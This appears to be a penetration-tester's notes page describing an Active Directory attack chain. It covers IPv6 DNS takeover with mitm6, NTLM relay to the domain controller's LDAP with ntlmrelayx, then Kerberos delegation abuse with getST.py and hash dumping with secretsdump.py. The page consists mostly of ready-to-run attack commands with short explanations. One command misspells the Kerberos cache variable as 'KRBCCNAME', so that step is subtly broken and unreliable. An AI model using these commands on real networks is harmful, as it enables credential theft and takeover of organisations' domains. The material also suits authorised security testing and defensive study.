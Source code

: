 # ⭕ DNS Takeover + LDAP Relay

## IPv6 DNS Takeover

ipv6 is setup by default on all windows machines in a network even if the network doesnt utilize v6 so no one is doing dns resolotion for v6 .an attacker can setup a fake dns server and resolve all ipv6 requests in a network and forward them to the DC so we can sniff the authentication and hashs on the way with a tool like MitM6.

{% hint style="info" %}
For DNS takeover to work, the AD CS role must be installed and configured on the domain controller.
{% endhint %}

we run mitm6 on the domain use -i to specify the interface.

```
python mitm6.py -i vboxnet0 -d megacorp.local
```

leave the terminal open, for now we are playing the role of an IPv6 DNS server in the network.

## LDAP Relay

we use ntlmrelayx.py script from impacket tools to relay the credentials when a client requests for IPv6 resources.

```
ntlmrelayx.py -6  -t ldaps://[DC address] -wh fakewpad.megacorp.local -l lootme
```

**lootme :** the directory to save the hashes

#### we could use ldap instead of ldaps for LDAP without a certification but most domains use this feature. ipv6 is going to ask for dns every 30 minutes or after restarting the machine.

#### ntlmrelayx.py might not show the success message in the terminal just check the lootme directory.

![](<../../../.gitbook/assets/image (210).png>)

![](<../../../.gitbook/assets/image (207).png>)

#### we can open up the results with firefox

## NTLM Relay + Kerberos Delegation

similarly we can use these commands to target WPAD and grab NTLM hashes:

```
# take over DNS with mitm6
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqdn


# receive connection, create a computer and grant delegation rights
impacket-ntlmrelayx -t ldaps://192.168.56.115 -wh attacker-wpad --delegate-access


# use impacket getST.py to obtain kerberos ticket
getST.py -spn cifs/icorp-w10.internal.corp internal.corp/RDPOF\$ -impersonate admin


# now with this ticket you can do whatever you want
# for example dumping hashes
export KRBCCNAME=admin.ccache
secretsdump.py -k -no-pass icorp-w10.internal.corp
```
